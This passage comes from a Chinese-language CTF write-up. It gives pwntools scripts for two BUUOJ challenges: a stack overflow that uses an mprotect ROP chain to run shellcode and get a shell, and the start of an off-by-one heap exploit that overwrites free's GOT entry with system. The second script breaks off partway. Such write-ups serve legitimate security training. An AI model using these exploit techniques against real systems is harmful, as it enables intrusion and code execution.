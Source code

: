 ```Python   
from pwn import*
context.log_level = 'debug'
context.terminal = ('terminator','-x','sh','-c')
p = remote("node3.buuoj.cn",26187)
#p=process("./not_the_same_3dsctf_2016")
elf = ELF("./not_the_same_3dsctf_2016")
addr = 0x80ea000
pop3ret = 0x0804f420
payload = "a"*45
payload += p32(elf.sym['mprotect']) + p32(pop3ret) + p32(addr) + p32(0x2000) + p32(7)
payload += p32(elf.sym['read']) + p32(pop3ret) + p32(0) + p32(addr) + p32(0x200) + p32(addr)
sleep(0.01)
#p.recvline()
p.sendline(payload)
#gdb.attach(p)
payload = asm(shellcraft.sh())
p.send(payload)
p.interactive()
```  
## 0x15  hitcontraining_heapcreator
off-by-one改下一个chunk的size，然后overlapping，布置free_got到chunk1中，然后show(1)泄露free_addr，接着改free_got为system。/bin/sh已经放在了第一个chunk中  
因为本题是off-by-one，只能溢出一个字节，所以必须要用\x41，不能用p64(0x41)，p64是8个字节    
```python  
#coding=utf-8
from pwn import *
context.terminal = ['terminator','-x','sh','-c']
#p = process('./heapcreator')
p=remote("node3.buuoj.cn",29112)
elf = ELF('./heapcreator')
libc = elf.libc

def create(size, content):
    p.recvuntil(":")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(size))
    p.recvuntil(":")
    p.sendline(content)

def edit(idx, content):
    p.recvuntil(":")
    p.sendline("2")
    p.recvuntil(":")
    p.sendline(str(idx))
    p.recvuntil(":")
    p.sendline(content)

def show(idx):
    p.recvuntil(":")
    p.sendline("3")
    p.recvuntil(":")
    p.sendline(str(idx))

def delete(idx):
    p.recvuntil(":")
    p.sendline("4")
    p.recvuntil(":")
    p.sendline(str(idx))

free_got = 0x602018
create(0x18,"aaaa")
```